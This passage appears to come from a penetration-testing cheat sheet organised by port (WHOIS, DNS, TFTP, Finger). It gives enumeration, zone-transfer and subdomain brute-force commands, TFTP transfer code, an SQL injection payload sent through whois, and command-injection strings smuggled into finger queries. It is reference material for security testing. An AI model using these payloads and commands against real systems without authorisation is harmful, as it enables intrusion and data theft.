 ```bash
For example doing: whois -h 10.10.10.155 -p 43 "a') or 1=1#"
you could be able to extract all the information saved in the database.
```
### Port 53 - DNS
```bash
# nslookup
nslookup
> SERVER <IP_DNS> #Select dns server
> 127.0.0.1 #Reverse lookup of 127.0.0.1, maybe...
> <IP_MACHINE> #Reverse lookup of a machine, maybe...

# DNS lookups, Zone Transfers & Brute-Force
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
# DNS - Subdomains BF
dnsrecon -D subdomains-1000.txt -d <DOMAIN> -n <IP_DNS>
dnscan -d <domain> -r -w subdomains-1000.txt #Bruteforce subdomains in recursive way, https://github.com/rbsec/dnscan

for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done

```

### Port 69 - UDP - TFTP
```bash
nmap -p69 --script=tftp-enum.nse $IP # Or
nmap -n -Pn -sU -p69 -sV --script tftp-enum $IPP
# Download Upload
msf5> auxiliary/admin/tftp/tftp_transfer_util

```
```python
import tftpy
client = tftpy.TftpClient(<ip>, <port>)
client.download("filename in server", "/tmp/filename", timeout=5)
client.upload("filename to upload", "/local/path/file", timeout=5)

```
### Port 79 - Finger
```bash
# Enumeration Banner Grabbing/Basic connection
nc -vn <IP> 79
echo "root" | nc -vn $IP 79

# User enumeration
finger @$IP       #List users
finger admin@$IP  #Get info of user
finger user@$IP   #Get info of user

# msf
use auxiliary/scanner/finger/finger_users

# command exec
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"

```
